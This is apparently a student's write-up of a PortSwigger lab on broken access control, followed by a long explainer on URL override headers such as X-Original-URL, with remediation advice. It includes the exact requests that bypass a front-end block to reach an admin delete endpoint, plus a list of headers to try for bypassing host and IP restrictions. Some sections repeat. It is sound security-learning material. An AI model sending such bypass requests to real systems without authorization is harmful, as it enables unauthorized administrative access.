



#### Broken access control resulting from platform misconfiguration
Lab 5:

Change the URL in the request line to `/` and add the HTTP header `X-Original-URL: /invalid`
`X-Original-URL: /admin`



But it says access denied so I change the request to
`X-Original-Url: /admin/delete?username=carlos`

and get a response:

`HTTP/2 400 Bad Request`
`Content-Type: application/json; charset=utf-8`
`X-Frame-Options: SAMEORIGIN`
`Content-Length: 30`

`"Missing parameter 'username'"`

So we just add `?username=carlos` into  the main url

`GET /?username=carlos HTTP/2`
`Host: 0ae700e1030141168026a81e00db0046.web-security-academy.net`
`X-Original-Url: /admin/delete`

And send to follow the redirection


#### Learnings:
## What Are URL Override Headers?

Headers such as **`X-Original-URL`** and **`X-Rewrite-URL`** are non-standard HTTP headers that some web frameworks and intermediaries use to **override the requested URL path**.[[portswigger](https://portswigger.net/kb/issues/00400f00_request-url-override)][[acunetix](https://www.acunetix.com/vulnerabilities/web/url-rewrite-vulnerability/)]

Normally, the server determines the requested path from:

```
GET /public/page HTTP/1.1
Host: example.com
```

If the application supports override headers, it may instead use:

```
GET /public/page HTTP/1.1
Host: example.com
X-Original-URL: /admin/dashboard
```

In this case, the framework may treat the request as if it were:

```
GET /admin/dashboard HTTP/1.1
```

even though the visible URL is `/public/page`.

## Why Do These Headers Exist?

These headers were introduced to help in complex architectures, such as:

- Reverse proxies.
- Load balancers.
- Web application firewalls.
- URL-rewrite rules.
- Front-end routing.
- Legacy systems.

A front-end component may rewrite the URL but forward the original path in a header so that the backend can process it correctly. However, if the backend trusts this header without validating it, it can lead to security problems.

## Common URL Override Headers

|Header|Typical purpose|
|---|---|
|`X-Original-URL`|Overrides the original request URL.|
|`X-Rewrite-URL`|Overrides the URL used for routing.|
|`X-Url`|Sometimes used to specify the target URL.|
|`X-Forwarded-Host`|Overrides the host name seen by the backend.|
|`X-HTTP-Host-Override`|Another host-override variant.|
|`X-Forwarded-For`|Indicates the original client IP.|
|`X-Method-Override`|Changes the HTTP method, such as `POST` to `PUT`.|

These are not part of the HTTP standard; they are implementation-specific.[[developer.mozilla](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/X-Forwarded-Host)][[portswigger](https://portswigger.net/web-security/host-header)][[attackshipsonfi](https://attackshipsonfi.re/p/exploiting-cors-misconfigurations)]

## How Can This Become a Vulnerability?

PortSwigger and OWASP describe this as **Request URL override** or **URL rewrite vulnerability**.[[portswigger](https://portswigger.net/kb/issues/00400f00_request-url-override)][[acunetix](https://www.acunetix.com/vulnerabilities/web/url-rewrite-vulnerability/)]

If an application trusts these headers, an attacker may:

### 1. Bypass Access Controls

Suppose a front-end proxy blocks external access to `/admin`:

```
GET /admin HTTP/1.1
Host: example.com
```

The proxy returns `403 Forbidden`.

But if the application supports `X-Original-URL`, an attacker may send:

```
GET /public/page HTTP/1.1
Host: example.com
X-Original-URL: /admin
```

If the application uses the header value for routing, it may process the request as `/admin`, bypassing the proxy’s rule. PortSwigger provides a lab where changing `X-Original-URL` to `/admin` allows access to a protected admin panel.[[portswigger](https://portswigger.net/web-security/access-control/lab-url-based-access-control-can-be-circumvented)]

### 2. Bypass Web Application Firewall Rules

A WAF may inspect the visible URL and block:

```
GET /vulnerable-endpoint HTTP/1.1
```

But if the backend routes based on `X-Rewrite-URL`, the attacker may send:

```
GET /normal-page HTTP/1.1
Host: example.com
X-Rewrite-URL: /vulnerable-endpoint
```

The WAF sees a normal page, but the backend processes the vulnerable endpoint.

### 3. Poison Caches

If a caching layer caches responses based on the visible URL but the backend uses `X-Rewrite-URL`, an attacker may cause the cache to store a response intended for a different path. This can affect other users. PortSwigger notes that URL override headers may enable cache poisoning.[[portswigger](https://portswigger.net/kb/issues/00400f00_request-url-override)]

### 4. Forge Logs

If logs record the visible URL but the application processes a different URL, the logs may not reflect the actual request. This complicates incident response and forensics.

## How to Test for Support

OWASP and PortSwigger describe a simple detection method:[[portswigger](https://portswigger.net/kb/issues/00400f00_request-url-override)][[owasp](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/02-Testing_for_Bypassing_Authorization_Schema)]

### Step 1: Send a normal request

```
GET / HTTP/1.1
Host: example.com
```

Record the response.

### Step 2: Send a request with `X-Original-URL`

```
GET / HTTP/1.1
Host: example.com
X-Original-URL: /nonexistent123
```

If the response shows `404 Not Found` or “resource not found,” the application likely processes the header.

### Step 3: Send a request with `X-Rewrite-URL`

```
GET / HTTP/1.1
Host: example.com
X-Rewrite-URL: /nonexistent456
```

Again, check for `404` or a similar marker.

If either header causes a “not found” response, the application may support URL override.

### Step 4: Attempt a bypass

If a front-end blocks `/admin` but allows `/public`, try:

```
GET /public HTTP/1.1
Host: example.com
X-Original-URL: /admin
```

Compare the response with direct access to `/admin` from an allowed location.

Only perform this test within an explicitly authorized scope.

## Real Example from PortSwigger

PortSwigger provides a lab where:

- An unauthenticated admin panel exists at `/admin`.
- A front-end blocks external access to `/admin`.
- The application supports `X-Original-URL`.

The solution is:

1. Send a request to the homepage.
2. Add the header:

```
X-Original-URL: /admin
```

3. The application routes to `/admin` and allows access.[[portswigger](https://portswigger.net/web-security/access-control/lab-url-based-access-control-can-be-circumvented)]

This demonstrates how URL override can bypass front-end access controls.

## Frameworks That May Support These Headers

Some PHP and other web frameworks have supported `X-Original-URL` or `X-Rewrite-URL` in certain versions. For example, some Symfony versions accepted these headers for URL rewriting.[[security.stackexchange](https://security.stackexchange.com/questions/229928/x-original-url-and-x-rewrite-url-related-vulnerabilities)]

Microsoft IIS Application Request Routing can append `X-Original-URL` to preserve the original URL for backend processing.[[stackoverflow](https://stackoverflow.com/questions/57898336/iis-arr-disable-or-overwrite-appended-x-original-url-http-header-from-forward)]

Support varies by version and configuration.

## Remediation

### 1. Disable the feature if not needed

If your framework or middleware supports URL override headers but you do not require them, disable the feature entirely. PortSwigger recommends locating the component that processes the headers and disabling it.[[portswigger](https://portswigger.net/kb/issues/00400f00_request-url-override)]

### 2. Strip the headers at the edge

If you cannot disable the feature, configure your reverse proxy, WAF, or load balancer to remove these headers before they reach the backend:

```
Remove: X-Original-URL
Remove: X-Rewrite-URL
Remove: X-Url
```

### 3. Validate and restrict

If the feature is required:

- Only accept the header from trusted internal components.
- Validate that the override value is within an allowed set of paths.
- Do not allow arbitrary URLs.
- Ensure that access-control checks apply to the overridden path, not just the visible URL.

### 4. Apply consistent authorization

Authorization and access control must apply to the **final, effective URL**, not only the visible one. OWASP emphasizes employing least privilege and ensuring that no unauthorized access occurs through alternative routing.[[owasp](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/02-Testing_for_Bypassing_Authorization_Schema)]

### 5. Update frameworks

Apply security updates to frameworks that previously accepted untrusted override headers.

## Summary

- **`X-Original-URL`** and **`X-Rewrite-URL`** are non-standard headers that can override the requested URL path.
- They exist to help proxies, load balancers, and URL-rewrite logic, but can be misused if trusted without validation.
- Attackers may use them to bypass access controls, WAF rules, and caching logic, or to forge logs.
- Detection involves sending requests with these headers pointing to non-existent resources and observing whether the application responds with `404`.
- The correct fix is to disable the feature, strip the headers at the edge, or strictly validate and authorize the overridden path.

PortSwigger classifies this issue as **Request URL override**, and OWASP includes it in authorization-bypass testing.[[portswigger](https://portswigger.net/kb/issues/00400f00_request-url-override)][[owasp](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/02-Testing_for_Bypassing_Authorization_Schema)]

## Why This Works

The vulnerability arises when:

- A front-end component enforces access control based on the visible URL.
- A backend framework overrides the URL using a client-supplied header.
- The backend does not validate or restrict the header value.
- Authorization checks apply only to the visible URL, not the overridden one.

OWASP notes that some applications support non-standard headers such as `X-Original-URL` or `X-Rewrite-URL` to override the target URL, and this can be leveraged to bypass access-control restrictions applied by a front-end component.

## Related Headers

Attackers may also test:

- `X-Rewrite-URL`
- `X-Url`
- `X-Forwarded-Host`
- `X-HTTP-Host-Override`
- `X-Forwarded-For` with `127.0.0.1` or internal ranges
- `X-Remote-IP`, `X-Originating-IP`

These can bypass restrictions based on host, IP, or path. OWASP recommends testing these headers when evaluating authorization schemas.[[owasp](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/17-Testing_for_Host_Header_Injection)]

## Example Attack Flow

```
Attacker:
1. Requests /public (allowed).
2. Adds X-Original-URL: /admin.
3. Front-end sees /public, allows request.
4. Backend reads X-Original-URL, routes to /admin.
5. Attacker reaches admin functionality.
```

This can be used to:

- Access admin panels.
- Reach internal endpoints.
- Bypass WAF rules.
- Poison caches.
- Forge logs.

PortSwigger classifies this as **Request URL override**, and notes that it may affect routing and processing.

## Detection Checklist

To test for this issue in an authorized assessment:

1. Send a normal request:

```
GET / HTTP/1.1
Host: example.com
```

2. Send with `X-Original-URL`:

```
GET / HTTP/1.1
Host: example.com
X-Original-URL: /nonexistent
```

3. Send with `X-Rewrite-URL`:

```
GET / HTTP/1.1
Host: example.com
X-Rewrite-URL: /nonexistent
```

4. Look for `404` or “not found” markers.
5. If supported, attempt to override a blocked path:

```
GET /allowed-path HTTP/1.1
Host: example.com
X-Original-URL: /blocked-path
```

6. Compare responses.

Only perform this within an explicitly authorized scope.

## Remediation

### 1. Disable URL override

If the framework supports `X-Original-URL` or `X-Rewrite-URL` but you do not require it, disable the feature. PortSwigger recommends locating the component that processes the headers and disabling it.

### 2. Strip the headers at the edge

Configure your reverse proxy, WAF, or load balancer to remove these headers before they reach the backend:

```
Remove: X-Original-URL
Remove: X-Rewrite-URL
Remove: X-Url
```

### 3. Validate and restrict

If the feature is required:

- Accept the header only from trusted internal components.
- Validate that the override value is within an allowed set of paths.
- Do not allow arbitrary URLs.
- Ensure that access-control checks apply to the overridden path.

### 4. Apply consistent authorization

Authorization must apply to the final, effective URL, not only the visible one. OWASP emphasizes employing least privilege and ensuring that no unauthorized access occurs through alternative routing.

### 5. Update frameworks

Apply security updates to frameworks that previously accepted untrusted override headers.


